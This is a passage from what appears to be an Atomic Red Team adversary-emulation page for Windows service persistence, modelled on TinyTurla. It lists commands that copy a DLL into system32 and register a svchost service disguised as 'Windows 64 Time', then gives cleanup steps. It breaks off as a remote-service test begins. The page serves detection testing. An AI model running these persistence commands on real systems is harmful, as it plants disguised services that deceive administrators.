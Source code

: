 [Related Talos Blog](https://blog.talosintelligence.com/2021/09/tinyturla.html)

**Supported Platforms:** Windows


**auto_generated_guid:** ef0581fd-528e-4662-87bc-4c2affb86940





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dllfilename | It specifies Dll file to run as service | string | $PathToAtomicsFolder&#92;T1543.003&#92;bin&#92;w64time.dll|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy "#{dllfilename}" %systemroot%\system32\
sc create W64Time binPath= "c:\Windows\System32\svchost.exe -k TimeService" type= share start=auto
sc config W64Time DisplayName= "Windows 64 Time"
sc description W64Time "Maintain date and time synch on all clients and services in the network"
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Svchost" /v TimeService /t REG_MULTI_SZ /d "W64Time" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\W64Time\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "%systemroot%\system32\w64time.dll" /f
sc start W64Time
```

#### Cleanup Commands:
```cmd
sc stop W64Time
sc.exe delete W64Time
del %systemroot%\system32\w64time.dll
reg delete "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Svchost" /v TimeService /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Services\W64Time\Parameters" /v ServiceDll /f
```





<br/>
<br/>

## Atomic Test #5 - Remote Service Installation CMD
Download an executable from github and start it as a service on a remote endpoint
Upon successful execution, powershell will download `AtomicService.exe` from github. cmd.exe will spawn sc.exe which will create and start the service. Results will output via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** fb4151a2-db33-4f8c-b7f8-78ea8790f961
